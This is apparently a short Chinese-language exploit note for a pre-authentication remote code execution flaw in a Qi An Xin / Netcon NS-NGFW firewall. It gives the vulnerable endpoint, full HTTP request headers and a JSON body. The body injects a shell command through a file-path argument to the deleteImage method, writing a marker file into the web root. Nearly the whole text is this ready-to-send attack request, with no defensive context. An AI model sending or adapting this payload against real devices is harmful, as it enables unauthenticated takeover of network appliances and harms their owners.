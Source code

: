 奇安信NS-NGFW 网康防火墙 前台RCE

 http://X.X.X.X/directdata/direct/router

请求头(requestHeader)

Host: X.X.X.X

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

Content-Length: 155

Content-Type: application/json

X-Requested-With: XMLHttpRequest

Accept-Encoding: gzip

请求Body(requestBody)

{

   "action": "SSLVPN_Resource",

   "method": "deleteImage",

   "data": [{

       "data": ["/var/www/html/d.txt;echo '5b926437'>/var/www/html/5b926.txt"]

   }],

   "type": "rpc",

   "tid": 17

}

http://X.X.X.X/directdata/direct/router